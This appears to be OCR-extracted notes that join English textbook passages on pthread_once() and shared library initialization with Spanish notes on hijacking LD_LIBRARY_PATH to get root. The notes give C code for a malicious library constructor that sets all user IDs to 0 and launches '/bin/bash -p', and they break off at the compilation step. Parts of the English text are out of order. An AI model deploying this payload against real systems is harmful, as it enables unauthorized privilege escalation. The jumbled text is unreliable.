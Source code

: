 \_Init: Sometimes, a threaded application needs to ensure that some initialization action occurs just once, regardless of how many threads are created. For example, a mutex may need to be initialized with special attributes using pthread\_mutex\_init\(\), and that initialization must occur just once. If we are creating the threads from the main program, then this is generally easy to achieve—we perform the initialization before creating any threads that depend on the initialization. However, in a library function, this is not possible, because the calling program may create the threads before the first call to the library function. Therefore, the library function needs a method of performing the initialization the first time that it is called from any thread. A library function can perform one-time initialization using the pthread\_once\(\) function.

The pthread\_once\(\) function uses the state of the argument once\_control to ensure that the caller-defined function pointed to by init is called just once, no matter how many times or from how many different threads the pthread\_once\(\) call is made. The init function is called without any arguments, and thus has the following form: void init\(void\) { /\* Function body \*/ }

An older technique for shared library initialization and finalization is to create two functions, \_init\(\) and \_fini\(\), as part of the library. The void \_init\(void\) function contains code that is to executed when the library is first loaded by a process. The void \_fini\(void\) function contains code that is to be executed when the library is unloaded. If we create \_init\(\) and \_fini\(\) functions, then we must specify the gcc –nostartfiles option when building the shared library, in order to prevent the linker from including default versions of these functions. \(Using the –Wl,–init and –Wl,–fini linker options, we can choose alternative names for these two functions if desired.\) Use of \_init\(\) and \_fini\(\) is now considered obsolete in favor of the gcc constructor and destructor attributes, which, among other advantages, allow us to define multiple initialization and finalization functions.

It is possible to define one or more functions that are executed automatically when a shared library is loaded and unloaded. This allows us to perform initialization and finalization actions when working with shared libraries. Initialization and finalization

**LD\_Library**

LD\_Library path contiene un listado de directorios donde se han de buscar librerías.

El comando Ldd nos servirá para conocer que librerías utiliza un binario:

* $ ldd /usr/sbin/XXX

La idea es substituir una librería \(lib\_a\_subs.so\) que deba usar el binario XXX por una librería que este bajo nuestro control

El código es el siguiente:

\#include \#include

static void foo\(\) \__attribute_\_\(\(constructor\)\);

void foo\(\)

{ unsetenv\("LD\_LIBRARY\_PATH"\);

setresuid\(0,0,0\);

system\("/bin/bash -p"\);

}

1. Compilación:
